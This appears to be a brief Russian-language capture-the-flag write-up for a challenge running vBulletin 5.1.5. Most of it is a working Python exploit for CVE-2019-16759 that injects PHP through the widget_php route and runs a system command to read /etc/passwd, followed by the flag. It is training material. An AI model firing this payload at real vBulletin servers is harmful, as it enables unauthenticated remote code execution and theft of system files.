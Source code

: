 # Zhytomyr (23.owaspctf.gq)

На главной странице видим форум vBulletin версии 5.1.5.

`CVE-2019-16759.py`:

```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

from __future__ import print_function
import sys
import requests
import re

response = requests.post(
    url = 'http://23.owaspctf.gq/',
    data = {
        'routestring': 'ajax/render/widget_php',
        'widgetConfig[code]': 'system("tail -1 /etc/passwd");die;'
    },
    allow_redirects=False,
)
print(response.text)
```

`FLAG{vBulletin_5.x_0day_pre-auth_RCE_exploit}`
